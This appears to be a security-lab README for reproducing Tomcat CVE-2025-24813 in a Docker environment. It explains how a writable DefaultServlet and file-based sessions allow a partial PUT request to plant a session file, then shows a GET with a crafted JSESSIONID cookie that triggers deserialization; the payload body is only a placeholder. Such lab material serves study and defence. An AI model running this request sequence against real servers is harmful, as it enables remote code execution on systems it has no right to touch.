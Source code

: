 # Tomcat Remote Code Execute (CVE-2025-24813)

[中文版本(Chinese version)](README.zh-cn.md)

Tomcat version: 9.0.97

## Environment Setup

```
docker compose build
docker compose up -d
```

After successfully running the commands above, you will see the example page of Tomcat through visiting the site `http://your-ip:8080`.

## Rationale

Reference links:

- https://forum.butian.net/article/674

Due to the configuration of Tomcat being writable (readonly=false) and the file storage for sessions, with their default storage path both set to $CATALINA_BASE/work/Catalina/localhost/ROOT, it allows us to write files to the server. Furthermore, by specifying the JSESSIONID, we can trigger deserialization of the files we have written.

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Partial PUT request is used to upload a file, the path separators (/) in the file path are converted to periods (.) and temporarily stored in $CATALINA_BASE/work/Catalina/localhost/ROOT.

## POC

By Content-Range request header to craft an partial PUT request, the following data packet can be sent to cause Tomcat to write a file named .deserialize.session in the temporary directory:

```
PUT /deserialize/session HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1000
Content-Range: bytes 0-1000/1200

deserialize content
```

Send the following data packet to trigger deserialization:
```
GET / HTTP/1.1
Host: 127.0.0.1:8080
Cookie: JSESSIONID=.deserialize
```

As follows:

![](01.jpg)
